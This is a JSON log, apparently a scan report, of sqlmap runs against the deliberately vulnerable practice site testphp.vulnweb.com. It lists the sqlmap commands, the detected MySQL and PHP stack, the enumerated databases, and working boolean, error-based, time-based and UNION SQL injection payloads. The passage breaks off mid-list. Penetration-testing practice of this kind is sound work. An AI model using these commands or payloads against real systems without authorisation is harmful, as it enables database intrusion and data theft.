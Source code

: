 ```json
    {
      "step": "dbms_specific_scan",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbms=mysql --tables --threads=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [],
        "tables": [],
        "columns": {},
        "dbms": "MySQL >= 8.0.0",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "PHP 5.6.40",
          "Nginx 1.19.0"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    },
    {
      "step": "high_risk_testing",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --risk=3 --level=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [
          "acuart",
          "information_schema"
        ],
        "tables": [],
        "columns": {},
        "dbms": "MySQL >= 8.0.0",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "Nginx 1.19.0",
          "PHP 5.6.40"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
```